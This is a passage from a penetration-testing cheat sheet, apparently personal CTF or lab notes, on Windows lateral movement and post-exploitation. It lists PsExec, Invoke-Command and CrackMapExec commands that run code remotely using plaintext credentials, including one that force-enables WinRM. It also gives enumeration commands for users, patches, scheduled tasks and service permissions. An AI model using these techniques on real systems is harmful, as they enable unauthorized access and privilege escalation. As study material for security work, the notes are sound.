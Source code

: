   - Execute command: `Invoke-Command -Computer ordws01 -ScriptBlock {ipconfig /all} -credential CSCOU\jarrieta  `
      - Command line: `Enter-PSSession -Computer ordws01 -credential CSCOU\jarrieta `
  - Force enabling WinRM:
  ```
  PS C:\tools\SysinternalsSuite> .\PsExec.exe \\ordws04 -u cscou\jarrieta -p nastyCutt3r -h -d powershell.exe "enable-psremoting -force"  
  ```
- CrackMapExec
  - "-x" parameter to send commands.
  - wmiexec.py across multiple IPs
- Using Remote Desktop
  - Impacket's rdp_check to see if you have RDP access,
  - Then use Kali's rdesktop to connect:
- Invoke command with credentials
    ```
    $user = '.\administrator';
    $psw = '1234test';
    $secpsw = ConvertTo-SecureString $psw -AsPlainText -Force;
    $credential = New-Object System.Management.Automation.PSCredential $user, $secpsw
    ```
    ```
    invoke-command -computername localhost -credential $credential
    -scriptblock {cd C:\Users\Administrator\Desktop\;C:\Users\Administrator\Desktop\root.exe}
    ```
    
## General Exploits

## Post Exploitation 

- Patch level  
  - `systeminfo`
  - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- User info
  - `whoami`
  - `echo %USERNAME%  `
  - `net user  `
  - `net localgroup  `
  - `net user /domain  `
  - `net group /domain  `
  - `net group /domain <Group Name>  `
- Firewall  
  - `netsh firewall show state  `
  - `netsh firewall show config  `
- Network  
  - `ipconfig /all  `
  - `route print  `
  - `arp -A  `
- Scheduled Tasks  
  - `schtasks /query /fo LIST /v  ` --copy output and save in txt  
  - `cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM`  
  - `dir %SystemRoot%\Tasks  `
    - e.g. c:\windows\tasks\  
    - e.g. c:\windows\system32\tasks\  
- Services  
  - Check service config can be modify or not  
    ```bat
    accesschk.exe /accepteula  
    accesschk.exe -uwcqv "Authenticated Users" * /accepteula  
    accesschk.exe -ucqv \<Service Name>  
    ```
    ```bat
    sc qc \<Service Name> -- Get service details  